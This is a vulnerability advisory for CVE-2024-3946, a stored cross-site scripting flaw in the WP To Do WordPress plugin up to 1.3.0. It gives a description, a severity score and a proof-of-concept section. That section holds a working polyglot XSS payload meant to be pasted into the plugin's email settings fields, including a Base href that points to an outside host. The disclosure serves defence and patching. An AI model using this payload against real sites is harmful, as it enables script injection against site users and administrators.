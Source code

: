 ```yaml
---
layout: page
title: CVE-2024-3946
subtitle: WP To Do <= 1.3.0 - Authenticated (Admin+) Stored Cross-Site Scripting via Settings
---
```

## Description
The WP To Do plugin for WordPress is vulnerable to Stored Cross-Site Scripting via admin settings in all versions up to, and including, 1.3.0 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with administrator-level permissions and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page. This only affects multi-site installations and installations where unfiltered_html has been disabled.

## Severity
 4.4 (Medium) - [CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N)

## Affected Version
    <= 1.3.0

## PoC :
```
- Go To WP To Do/Settings
- Put this payload on field "Email subject" & "Email Body"
JavaScript://%0A/*?'/*\\'/*"/*\\"/*`/*\\`/*&apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(confirm)(1+2+3+4+5+6+7+8+9+10+11+12+13+14+15+16+17+18+19+20+45+500+1000-400-20+2)}//><Base/Href=//ener1-s3c.github.io\\76-->
- Submit Query
```

## Refrence
- https://plugins.trac.wordpress.org/browser/wp-todo/trunk/inc/Base/Model.php#L304
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-todo/wp-to-do-130-authenticated-admin-stored-cross-site-scripting-via-settings





